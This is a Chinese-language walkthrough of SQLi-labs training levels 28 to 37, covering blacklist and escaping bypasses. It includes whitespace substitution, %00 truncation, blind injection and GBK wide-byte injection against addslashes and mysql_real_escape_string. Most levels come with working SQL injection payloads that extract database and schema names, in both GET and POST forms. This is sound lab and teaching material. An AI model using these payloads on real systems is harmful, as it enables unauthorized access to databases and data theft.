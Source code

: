 #### 28
1和1"正常回显，1'报错，单引号字符型。
2'&&'1'='1回显为id=1，有小括号。因为当你有小括号的时候
`$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`变成
`$sql="SELECT * FROM users WHERE id=('2'&&'1'='1') LIMIT 0,1";`
所以会变成id=1
看了下代码
```php
$id = blacklist($id);
$hint = $id;
function blacklist($id)
{
    $id= preg_replace('/[\/\*]/',"",$id);               //strip out /*
    $id= preg_replace('/[--]/',"",$id);                 //Strip out --.
    $id= preg_replace('/[#]/',"",$id);                  //Strip out #.
    $id= preg_replace('/[ +]/',"",$id);                 //Strip out spaces.
    $id= preg_replace('/[ +]/',"",$id);                 //Strip out spaces.
    $id= preg_replace('/union\s+select/i',"",$id);      //Strip out UNION & SELECT.
    return $id;
}
```
过滤了相连的union和select，这个可以复写绕过，或者使用其他代替空格,如下都可能可以代替空格
```
%0a
%0d
%20
%0b
%a0
/%0a/
```
这题可以用%0a，使用%00截断
可以盲注
```
0')||left(database(),1)>'s';%00
```
也可以绕过union select直接注入
```
333')union%a0select(1),(database()),(3)||('1
```
![](image/71.png)
解释：
```
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
$sql="SELECT * FROM users WHERE id=('333')union%a0select(1),(database()),(3)||('1') LIMIT 0,1";
```
前面的333可以尽量大一些，不能用-1。
#### 28-a
感觉就像看错了题？28-a居然是在 Less 28 的基础上还注释掉了很多过滤。这样28的payload肯定可以直接打
给出一个强一点的过滤
```php
$id = blacklist($id);
$hint = $id;
function blacklist($id)
{
    $id = preg_replace('/or/i',"",$id);
    $id = preg_replace('/and/i',"",$id);
    $id = preg_replace('/[\/\*]/',"",$id);
    $id = preg_replace('/[--]/',"",$id);
    $id = preg_replace('/[#]/',"",$id);
    $id = preg_replace('/[\/\\\\]/',"",$id);
    $id = preg_replace('/[ +]/',"",$id);
    $id = preg_replace('/[\s]/',"",$id);
    $id = preg_replace('/select/i',"",$id);
    $id = preg_replace('/union/i',"",$id);
    $id = preg_replace('/union\s+select/i',"",$id);
    return $id;
}
```
末尾\i就会导致不区分大小写，统统过滤
##### 29
比较智障了吧，好像过滤什么，直接注入
```
0%27union/**/select/**/1,group_concat(schema_name),1/**/from/**/information_schema.schemata%23
```
##### 30
同上，只是单引号变双引号
```
0"union/**/select/**/1,group_concat(schema_name),1/**/from/**/information_schema.schemata%23
```
##### 31
同上，只是双引号加了括号
```
0")union/**/select/**/1,group_concat(schema_name),1/**/from/**/information_schema.schemata%23
```

##### 宽字节注入
国内最常使用的 GBK 编码，这种方式主要是绕过 addslashes 等对特殊字符进行转移的绕过。mysql在使用GBK编码的时候，会认为两个字符为一个汉字，例如%df%5c就是一个汉字。反斜杠 \ 的十六进制为 %5c，在你输入 %bf%27 时，函数遇到单引号自动转移加入 \，此时变为 %bf%5c%27，%bf%5c 在 GBK 中变为一个宽字符「縗」。%bf 那个位置可以是 %81-%fe 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。
先了解addslashes() 函数，就是转义函数
```php
<?php
$str = addslashes('Shanghai is the "biggest" city in China.');
echo($str);
?>
```
输出
```
Shanghai is the \"biggest\" city in China.
```
内部实现就是
```php
$string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
$string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
$string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
```
所以我们输入
```
http://127.0.0.1/Less-32/?id=1%df'
```
根据以上分析，发生如下转换：(%5c是`\`的十六进制)
```
%df%27====>(check_addslashes)====>%df%5c%27====>(GBK)====>運'
```
```
$sql="SELECT * FROM users WHERE id='1運'' LIMIT 0,1"; #成功将单引号闭合，可以进行SQL注入。
```
[参考1：https://www.cnblogs.com/fengshui/p/9266830.html](https://www.cnblogs.com/fengshui/p/9266830.html)
[参考2：https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html](https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html)

##### 32
![](image/72.png)
输入`?id=1%df%27`页面会报错说明单引符号起作用了。c
`?id=-1%df%27%20union%20select%201,2,3%20%23`,有回显所以可以款字节注入
```
?id=0%df%27 union select 1,group_concat(schema_name),2 from information_schema.schemata;%23
```
##### 33
和上同，只是把自定义的转义函数改成内置的转义函数
```
?id=0%df%27 union select 1,group_concat(schema_name),2 from information_schema.schemata;%23
```
##### 34
把get改成post了，注意不能直接在界面上输入，因为%什么的都会会浏览器转义，所以burp直接修改
![](image/73.png)
```
admin%df'or 0 union select 1,group_concat(schema_name) from information_schema.schemata%23&passwd=&submit=Submit
```
##### 35
直接注入？回到第一关了233
```
0 union selEct 1,group_concat(schema_name),2 from information_schema.schemata;%23
```
##### 36
使用了mysql_real_escape_string函数过滤
查看文档,下列字符受影响：
```
\x00
\n
\r
\
'
"
\x1a
```
还是宽字节注入
```
0%df%27%20union%20selEct%201,group_concat(schema_name),2%20from%20information_schema.schemata;%23
-1%EF%BF%BD%27union%20select%201,user(),3--+
```
##### 37
改成post
```
uname=0%df%27%20union%20selEct%20group_concat(schema_name),2%20from%20information_schema.schemata;%23&passwd=1&submit=Submit
```
[下一篇-38-题详解](README8.md)
更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)
